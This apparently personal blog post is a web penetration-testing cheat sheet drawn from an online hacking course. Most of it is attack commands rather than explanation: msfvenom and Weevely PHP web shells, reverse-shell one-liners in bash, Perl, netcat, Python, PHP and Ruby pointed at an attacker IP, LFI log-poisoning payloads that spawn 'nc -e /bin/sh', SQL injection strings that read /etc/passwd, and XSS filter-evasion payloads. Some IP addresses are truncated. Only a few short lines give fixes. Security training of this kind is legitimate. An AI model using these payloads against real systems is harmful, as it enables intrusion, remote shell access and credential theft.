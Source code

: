 ```yaml
---
layout: single
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
classes: wide
categories: notes web
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS

### **(Information Gathering)**

- `http://whois.domaintools.com` = find owner target
- `https://toolbar.netcraft.com/site_report?url` = show technology used on target
- `https://www.robtex.com` = show comprehensive info target
- Discovering Websites On The Same Server = *`bing ip:103.198.52.156 php?id`*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_`dirb http://what.com.my /root/usr/share/wlist.txt`_]. Try find [`php.info, robots.txt, config.inc`] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *`msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php`*
- Metasploit listener: *`use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run`*
- Upload Weevly shell. *`weevly generate p@55w0rd! shell.php`*
- .Open the url to activated.
- Connect to weevly terminal.  *`weevly http://test.com.my/upload p@55w0rd!`*
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command *`nc -vv -l -p 8080`*

- BASH = *`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`*
- PERL= *`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`*
- Netcat = *n`c -e /bin/sh 10.20.14 8080`*
- Python = *`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`*
- PHP = *`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- Ruby = *`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`*


### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for *`../../../../etc/passwd`* and copy the passwd hashes.
- Gain access method#1. Check for *`../../../../proc/self/environ`* and modify burpsuite Headers Tab>user Agent value from Mozilla to *`<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>`* and set listener to *`nc -vv -l -p 8888`* on terminal.
- Gain access method#2. Check for *`../../../../var/log/auth.log`* and do SSH by *`ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP`* and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by `disable allow_url_fopen` & `allow_url_include` in `/etc/php5/cgi/php.ini`.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use `and, order by, ‘` and check for error handling. `123456’ and 1=1#`
- [WEAK codepractise] Try `(admin)/(admin’ #); aaa’ or 1=1 #`
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using *`admin’ order by 1#`* `# change to %23` to check how many columns are there in db.
- If there are 5 columns then use *`union select 1, database(), user(), version(), 5`*

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE *`1’ and 1=1%23`*, FALSE  `1’ and 1=0%23`.
TRUE  `1’ order by 1%23`, FALSE   `1’ order by 1000000000%23`.
TRUE   `1’ union select table_name,2 from information_schema.tables%23`
`1’ union select null,load_file(‘/etc/passwd’),null,null,null%23`.
- *`Sqlmap -u http://injectablelink.com.org`* . use `‘--sql-shell’` parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic *`<script>alert(“testedXSS”)</script>`*
- If filter, try more *`<sCripT>alert(“testedXSS”)</scRipt>`*
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*
